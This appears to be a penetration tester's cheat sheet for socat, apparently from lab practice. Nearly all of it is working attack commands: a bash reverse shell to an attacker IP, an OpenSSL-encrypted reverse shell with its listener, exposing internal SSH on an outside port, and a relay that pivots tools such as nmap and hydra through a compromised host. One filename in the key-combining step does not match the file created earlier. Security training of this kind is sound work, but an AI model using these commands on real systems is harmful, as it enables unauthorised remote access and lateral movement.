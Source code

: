 ##### Socat reverse shell (Linux target)
`socat TCP:10.8.1.167:5555 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
-   **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
-   **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
-   **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
-   **setsid**, creates the process in a new session
-   **sane**, stabilises the terminal, attempting to "normalise" it.


##### Listen
`socat -dd TCP-L:5555 STDOUT`


##### Create encrypted reverse shell
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 999 -out shell.crt  // Creating the key, creates "shell.crt, shell.key"
cat shell.key cert.crt > shell.pem  // Combine keys
socat OPENSSL-CONNECT:10.8.16.7:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane // Connect
socat -d -d OPENSSL-LISTEN:4444,cert=/home/edu/THM/EXPLOITS/shell.pem,verify=0// Listen
```

##### Open external port to access internal
```
./socat_linux tcp-listen:9001,reuseaddr,fork tcp:127.0.0.1:22      // Opens port 9001, connecting to the internal SSH protocol
```

##### Socat port forward:
```
socat TCP-L:8001 TCP-L:8000,fork,reuseaddr & // Set up listener on attacking machine, :8001 to :8000 and :8000 to :8001
socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork & // Set up relay on compromised host
```

Send data (nmap, hydra, etc) through `127.0.0.1:8000`
Don't forget to close Socat after use


